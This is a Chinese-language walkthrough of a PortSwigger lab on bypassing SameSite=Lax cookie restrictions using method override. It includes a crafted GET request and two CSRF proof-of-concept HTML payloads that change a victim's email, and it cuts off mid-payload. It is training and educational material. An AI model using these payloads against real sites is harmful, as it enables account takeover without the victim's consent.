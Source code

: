 #### 3.2.2 Samesite Lax/Cookie跨域攻击

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override

Cookie samesite是chromium内核浏览器对前端的一个属性限制，如果前端所在网址与后端API不同域，则会限制前端返回Cookie.![img](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308131214777.webp)

Cookie的Samesite属性有三种：

| 类型            | 描述                                                         |
| --------------- | ------------------------------------------------------------ |
| SameSite None   | 将在所有跨源请求中发送 cookie，将被视为普通（旧）Cookie 。   |
| SameSite Lax    | 仅在顶部窗口导航（例如`<a>`标签、`window.open()`）中的GET请求中发送 cookie 。 |
| SameSite Strict | 仅当用户在URL栏中键入网站并按Enter时，才会发送 cookie 。     |

当SameSite属性为lax的时候，可以通过构造含有顶部窗口导航的恶意页面进行cookie盗取，从而达成跨域CSRF攻击的目的。

参考资料：

https://web.dev/samesite-cookies-explained/

https://web.dev/samesite-cookie-recipes/

在该题中，更改邮箱的请求中并没有任何包含csrf的参数。但由于cookie存在无法实施跨域攻击，所以需要某种方法盗取cookie.网站的回显中没有包含任何关于cookie的限制，说明了samesite属性值为lax.

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308131239795.png)

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308131239206.png)

在这种情况下，一般会先考虑将请求包修改为GET请求，因为GET请求会包含顶部窗口导航，但这题中后端只接受post请求，需要构造恶意请求。

将请求头改为包含GET的请求，但使浏览器识别为post：

```html
GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1.1
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308131249272.png)

利用这一方法，构造payload:

```html
payload 1
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
        document.location = "https://0ae2001103d55d8c806f0d570045000c.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
    </script>
  </body>
</html>

payload 2
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ae2001103d55d8c806f0d570045000c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="_method" value="POST">
      <input type="hidden" name="email" value="enc3l2&#64;example&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
```